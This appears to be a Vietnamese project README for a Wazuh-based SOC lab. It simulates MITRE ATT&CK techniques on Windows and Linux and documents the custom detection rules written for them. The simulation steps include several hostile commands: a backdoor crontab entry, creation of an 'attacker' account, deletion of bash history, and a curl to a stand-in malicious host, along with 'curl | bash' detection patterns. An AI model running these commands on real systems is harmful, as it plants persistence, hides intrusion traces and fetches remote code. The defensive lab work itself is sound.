# Phase 3 - Linux Log Collection & Cross-Platform Attack Simulation Matrix

## Overview

Mục tiêu của Phase 3 là mở rộng năng lực giám sát của hệ thống SOC từ môi trường đơn nền tảng (Windows) sang môi trường đa nền tảng (bao gồm cả Linux Endpoint).

Thông qua Phase này, hệ thống sẽ chứng minh khả năng **thu thập (Collection)** và **chuẩn hóa (Normalization)** telemetry từ nhiều nguồn khác nhau, đồng thời xây dựng các kịch bản giả lập nhằm trả lời câu hỏi:

> "Hệ thống SOC hiện tại có khả năng phát hiện những kỹ thuật tấn công nào trên các hệ điều hành khác nhau?"

---

# Architecture

## Cross-Platform Telemetry Flow

### Windows Endpoint

```text
Sysmon
   ↓
Wazuh Agent (eventchannel)
   ↓
Wazuh Manager
(Windows Decoders & Rules)
   ↓
Filebeat
   ↓
Wazuh Indexer
   ↓
Dashboard
```

### Linux Endpoint

```text
Auditd
   ↓
/var/log/audit/audit.log
   ↓
Wazuh Agent (audit)
   ↓
Wazuh Manager
(Linux Decoders & Rules)
   ↓
Filebeat
   ↓
Wazuh Indexer
   ↓
Dashboard
```
---

# Attack Simulation Matrix
- Các Rule ID và ID Mitre đều được tự tạo rule do Wazuh một số lệnh không tự bắt được

| Use Case            | MITRE ATT&CK | Windows Detection      | Linux Detection        |
| ------------------- | ------------ | ---------------------- | ---------------------- |
| Account Discovery   | T1033, T1087 | Rule 100002            | Rule 100101            |
| Persistence         | T1053        | Rule 100004            | Rule 100102            |
| Create Account      | T1098        | Built- in              | Built-in  |
| Defense Evasion     | T1564, T1070 | Rule 100003            | Rule 100103            |
| LOLBins / Execution | T1218, T1059 | Rule 100006            | Rule 100104            |

---

# Use Case 1 - Account Discovery (T1033 / T1087)

## Attacker Objective

Sau khi truy cập được hệ thống, attacker thường thực hiện các lệnh cơ bản để xác định:

* Tài khoản hiện tại
* Nhóm quyền hạn
* Danh sách người dùng

## Attack Simulation

### Windows

```cmd
whoami
net user
```

### Linux

```bash
whoami
id
```

## Detection Analysis

### Windows

Nguồn log:

```text
Sysmon Event ID 1
```

Trường dữ liệu:

```text
win.eventdata.commandLine
```

Rule phát hiện:

```text
Rule ID: 100002
Level: 7
```


### Linux

Nguồn log:

```text
/var/log/audit/audit.log
```

Trường dữ liệu:

```text
data.audit.command
```

Rule phát hiện:

```text
Rule ID: 100101
Level: 7
```

### Result

Cả hai nền tảng đều phát hiện thành công hành vi trinh sát tài khoản.


---

# Use Case 2 - Persistence via Scheduled Tasks (T1053)

## Attacker Objective

Duy trì quyền truy cập sau khi hệ thống khởi động lại.

## Attack Simulation

### Windows

```cmd
schtasks /create ...
```

### Linux

```bash
echo "* * * * * /tmp/backdoor.sh" >> /etc/crontab
```

## Detection Analysis

### Windows

Nguồn log:

```text
Sysmon Event ID 1
```

Phát hiện việc tạo tiến trình Scheduled Task.


### Linux

Auditd giám sát file:

```text
crontab -l | { cat; echo "* * * * * echo 'Hacked'"; } | crontab -
```
Cơ chế: Lệnh này lạm dụng tiến trình lệnh crontab để tiêm một job độc hại chạy ngầm
Rule phát hiện:

```text
Rule ID: 100102
Level: 9
```

### Result

Hệ thống phát hiện thành công hành vi Persistence trên cả hai nền tảng.

---

# Use Case 3 - Create Local Account (T1136)

## Attacker Objective

Tạo tài khoản backdoor phục vụ truy cập lâu dài.

## Attack Simulation

### Windows

```cmd
net user attacker P@ss123 /add
```

### Linux

```bash
sudo useradd attacker
```

## Detection Analysis

### Windows

Nguồn log:

```text
Security Event ID 4720
```

Thông báo:

```text
A user account was created
```

Wazuh sử dụng bộ luật mặc định để phát hiện hành vi này.


### Linux

Nguồn log:

```text
/var/log/auth.log
```

Hành vi tạo tài khoản được Auditd và Wazuh ghi nhận tự động.


### Result

Cả hai hệ điều hành đều sinh cảnh báo thành công.

---

# Use Case 4 - Defense Evasion (T1564 / T1070)

## Attacker Objective

Che giấu hoạt động khỏi người vận hành SOC hoặc chuyên gia điều tra số.

## Attack Simulation

### Windows

```powershell
powershell.exe -WindowStyle Hidden
```

### Linux

```bash
rm -rf ~/.bash_history
```

## Detection Analysis

### Windows

Custom Rule:

```text
Rule ID: 100003
Level: 9
```

MITRE:

```text
T1564.003
```

### Linux

Custom Rule:

```text
Rule ID: 100103
Level: 10
```

MITRE:

```text
T1070
```

### Result

Các hành vi né tránh phòng thủ được nâng mức độ ưu tiên và hiển thị rõ trên Dashboard.
---

# Use Case 5 - LOLBins & Execution (T1218 / T1059)

## Attacker Objective

Lạm dụng các công cụ hợp pháp có sẵn trên hệ điều hành để thực thi mã độc.

## Attack Simulation

### Windows

```cmd
certutil.exe
bitsadmin.exe
```

### Linux

```bash
curl -s http://TrangWebGiaLapDocHai.com/malicious_script.sh
```


## Detection Analysis

### Windows

Custom Rule:

```text
Rule ID: 92213
Level: 9
```

Phát hiện hành vi tải file bằng LOLBins.

### Linux

Custom Rule:

```text
Rule ID: 100104
Level: 11
```

Bắt chuỗi hành vi:

```text
curl | bash
wget | bash
```

### Result

Cả hai nền tảng đều ghi nhận thành công hành vi thực thi đáng ngờ.

---

# Results

Sau khi hoàn thành Phase 3, hệ thống SOC Lab đã đạt được các kết quả sau:

* Thu thập telemetry từ Windows và Linux Endpoint.
* Chuẩn hóa dữ liệu về cùng định dạng JSON.
* Giám sát tập trung trên một Dashboard duy nhất.
* Bao phủ 5 kỹ thuật phổ biến trong MITRE ATT&CK.
* Xây dựng thành công các Custom Detection Rules cho Linux Endpoint.

---

# Lessons Learned

## 1. Cross-Platform Visibility

Windows và Linux có cơ chế ghi log hoàn toàn khác nhau, tuy nhiên Wazuh cho phép chuẩn hóa dữ liệu và giám sát tập trung trên cùng một nền tảng.

## 2. Importance of Deep Telemetry

Các nguồn log nâng cao như Sysmon và Auditd cung cấp khả năng quan sát sâu hơn rất nhiều so với log mặc định của hệ điều hành.

## 3. Detection Engineering Matters

Việc xây dựng và tinh chỉnh Custom Rules giúp nâng cao đáng kể khả năng phát hiện các kỹ thuật ATT&CK mà bộ luật mặc định chưa bao phủ đầy đủ.

## 4. MITRE ATT&CK Coverage

Phase 3 đã chứng minh khả năng phát hiện các kỹ thuật thuộc các nhóm:

* Discovery
* Persistence
* Defense Evasion
* Execution

trên cả Windows và Linux Endpoint.
